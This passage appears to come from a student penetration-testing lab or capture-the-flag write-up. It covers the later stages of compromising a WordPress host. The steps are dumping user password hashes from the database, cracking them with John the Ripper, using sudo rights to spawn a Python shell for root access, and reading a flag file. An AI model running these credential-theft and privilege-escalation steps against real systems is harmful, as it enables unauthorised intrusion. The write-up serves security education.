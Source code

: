       - SSH into target system using the new credentials.
      - Create an Interactive Terminal (spawned via Python).
      - Navigate the target system unopposed and extract the sensitive information.

After SSH into the system, using the information and methods for flags 1 & 2, the exploit moved to finding the WordPress configuratin file. Then, accessed the SQL DB & traversed the DB, tables, and data as root before moving on with the exploit.

`select * from wp_users;`
Reveals the usernames and their password hashes.

![Image](/24-Final-Project/ImagesProject/34.jpg)

We transfer the hashes to a text file and commence a password crack using the tool [JOHN THE RIPPER](https://www.kali.org/tools/john/)
The format of the hash file is `username:hash`

![Image](/24-Final-Project/ImagesProject/38.jpg)

Command: `john [hash file]`

![Image](/24-Final-Project/ImagesProject/39.jpg)

Command: `john --show [hash file]`

![Image](/24-Final-Project/ImagesProject/40.jpg)

`sudo -l` : List the commads you have the right to use with `sudo`

![Image](/24-Final-Project/ImagesProject/41.jpg)

We note Python can be run, and the exploit is Interactive Terminal Spawned via Python (although there is an `elastic` rule available for this exploit, we are not checking for it.):
https://www.elastic.co/guide/en/security/current/interactive-terminal-spawned-via-python.html
https://attack.mitre.org/tactics/TA0002/
https://attack.mitre.org/techniques/T1059/

[Methods to spawn TTY Shell](https://netsec.ws/?p=337)

Command: `python -c 'import pty; pty.spawn("/bin/sh")'`

This method, immediately escalated us to `root` privileges!

![Image](/24-Final-Project/ImagesProject/42.jpg)

Locate the sensitive information:

- `cd /root`
- `ls`
- `cat flag4.txt`

![Image](/24-Final-Project/ImagesProject/43.jpg)

---

---
